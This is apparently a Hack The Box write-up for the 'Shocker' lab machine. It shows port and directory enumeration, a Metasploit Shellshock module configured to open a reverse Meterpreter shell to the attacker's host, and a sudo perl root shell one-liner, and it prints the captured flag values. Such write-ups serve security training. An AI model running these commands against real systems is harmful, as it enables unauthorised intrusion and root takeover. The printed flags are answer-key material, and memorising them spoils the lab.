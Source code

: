 # HTB: Shocker

## Engagement Overview  
**Target:** Shocker (HTB)  
**Box IP:** 10.10.10.56  
**Date:** 2025-07-08  
**Difficulty:** Easy  
**Method:** Guided with experimentation  
**Preferred Shell:** Meterpreter (via Metasploit)

---

### Objectives  
- Enumerate HTTP and SSH services  
- Identify and exploit the Shellshock vulnerability  
- Escalate privileges to root  
- Capture user and root flags  

---

## Service Enumeration

```bash
nmap -sV -sC -p- 10.10.10.56
```

- **Port 80/tcp** – Apache 2.4.18 (Ubuntu)  
- **Port 2222/tcp** – OpenSSH 7.2p2 Ubuntu

### Dirsearch Results
```bash
dirsearch -u http://10.10.10.56 -e cgi,sh,pl,py
```

- `/cgi-bin/user.sh` (confirmed for Shellshock)
- Other 403 responses for `.htaccess*`, `/server-status`, etc.

---

## Methodologies

### Initial Access - Shellshock (CVE-2014-6271)

**Vulnerability Explanation:**  
Apache mod_cgi allows remote code execution via crafted HTTP headers. Exploitable through the `user.sh` script in `/cgi-bin/`.

**Exploitation Method (Metasploit):**
```bash
use exploit/multi/http/apache_mod_cgi_bash_env_exec
set RHOSTS 10.10.10.56
set TARGETURI /cgi-bin/user.sh
set LHOST <your-ip>
run
```

**Post-Exploitation:**  
- Shell received via Meterpreter  
- User: `shelly`

---

## Privilege Escalation

**sudo -l output:**  
```bash
User shelly may run the following commands on Shocker:
(root) NOPASSWD: /usr/bin/perl
```

**Exploitation:**
```bash
sudo perl -e 'exec "/bin/sh";'
```

- Shell escalated to root  
- `whoami` → `root`  
- `root.txt` captured

---

## House Cleaning
- Verified user and root flags
- Session closed cleanly
- No modifications left on disk

---

## Post-Exploitation

**Tools Utilized**
* `nmap`  
* `dirsearch`  
* `metasploit`  
* `LinEnum`  
* `gtofbins`  

**User Flag:**  
`084f092f15d55672beb680d9d4c00bca`  

**Root Flag:**  
`5b644f916a82afcad38cd359ec742ccc`  

---

## Key Takeaways

* **Tool Familiarity:** Improved comfort with `msfconsole`; it aligns well with your mental model.
* **Shell Handling:** Gained insight into managing reverse shells and privilege escalation using simple scripted payloads.
* **Practical Scripting Idea:** Consider writing a custom parser for `linenum.sh` output to streamline future small-box enumeration.
* **Flow Clarity:** HTB easy boxes like this are best used for muscle memory on tooling and developing clean workflows.